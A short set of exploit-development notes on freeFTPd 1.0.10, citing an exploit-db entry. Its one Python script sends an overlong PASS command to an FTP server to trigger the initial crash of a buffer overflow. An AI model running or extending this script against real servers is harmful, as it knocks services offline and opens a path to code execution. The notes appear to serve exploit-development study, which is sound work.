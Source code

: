 # freeFTPd 1.0.10

Downloaded from: https://www.exploit-db.com/exploits/27747

## Initial Crash

```
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 21
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 2000  # change me

payload = b'PASS '
payload += b"A" * CRASH_LEN

payload += b'\r\n'

with socket.create_connection(target) as sock:
    sock.recv(1024)
    sock.send(b"USER anonymous\r\n") 

    sock.recv(1024)
    sock.send(payload)   

    sock.close()
    
    print("\nDone!")
```
